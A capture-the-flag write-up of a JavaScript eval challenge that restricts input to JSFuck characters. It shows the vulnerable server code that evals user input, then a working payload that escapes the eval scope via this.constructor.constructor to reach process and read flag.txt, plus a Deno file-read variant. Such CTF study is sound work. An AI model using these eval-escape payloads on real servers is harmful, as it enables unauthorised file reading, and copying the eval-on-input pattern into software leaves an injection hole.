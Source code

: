 ## Solve Process  
We are greeted with this webpage. Trying to input normal javascript code doesn’t work.  
![image31](/static/writeups/photos/image31.png)  
![image32](/static/writeups/photos/image32.png)

Taking a look at the source code, we can see that the server is correctly validating the characters  
```javascript
let d = req.body;
let out = "";
for (let i of ["[", "]", "(", ")", "+", "!"]) {
  d = d.replaceAll(i, "");
}

if (d.trim().length) {
  res.send("ERROR: disallowed characters. Valid characters: '[', ']', '(', ')', '+', and '!'")
  return;
}
```

It should also be noted that the javascript, if verified, will be run by the server through the eval function.  
```javascript
let c;
try {
  c = eval(req.body).toString();
} catch (e) {
  res.send("An error occurred with your code.");
}

// disallow code execution
try {
  if (typeof (eval(c)) === "function") {
    res.send("Attempting to abuse javascript code against jslearning.site is not allowed under any circumstance.");
  }
} catch (e) {}
```
We can also see the endpoint  
```javascript
let flag = fs.readFileSync("flag.txt", "utf-8");
```

I recognised that there is a special form of javascript programming which uses these specific characters, called **JSFuck**. It only uses these specific characters, \[\]()+\!.   
You can convert normal javascript code to JSFuck here:  
[https://jsfuck.com](https://jsfuck.com)

For the next few parts, I will be showcasing the javascript code used. The JSFuck code I used can be found here

First, I tried converting “fun” into the JSFuck to perform a sanity check.  
![image36](/static/writeups/photos/image36.png)

Ok, let's try reading the flag.txt file. (Note that we cant access the flag variable since the flag variable is not in global scope, since it uses the let keyword)  
```javascript
fs.readFileSync("flag.txt", "utf-8");
```
![image38](/static/writeups/photos/image38.png)

Doesn’t work. I took a guess and presumed it was likely because fs was not being required inside the eval’s scope. So i tried to require the fs library.  
```javascript
process.mainModule.require("fs").readFileSync("flag.txt", "utf-8");
```
This didn’t work either. Since the code was being run in an eval, “process” did not exist inside the eval context. 

This is the final payload that works  
```javascript
this.constructor.constructor("return process")()
  .mainModule.require("fs")
  .readFileSync("flag.txt", "utf-8")
```
We needed a way to escape the val context into the global context. this.constructor.constructor refers to the “Function” constructor object in javascript. We can run some code by calling the constructor object, and that code will be run in the **global context**. We use this to retrieve the process variable, and then in order to require our fs library and read the flag file.

![image41](/static/writeups/photos/image41.png)

## Afterword  
After testing this code again, it seems it no longer works. I’m guessing that the admin did a fix of the code to make it less exploitable, so maybe the process variable couldn’t be accessed anymore.  
*(Yes they did, they changed fs.readFileSync to this)*
```javascript
let flag = Deno.readTextFileSync("flag.txt", "utf-8");
```
Anyways, here’s another payload that works. Deno works in the eval context too.   
```javascript
Deno.readTextFileSync("flag.txt");
```
Also on reflection i’m not sure whether my previous code didn't work because someone exploited the challenge, since i only ran my final solution after they restarted the challenge :P 
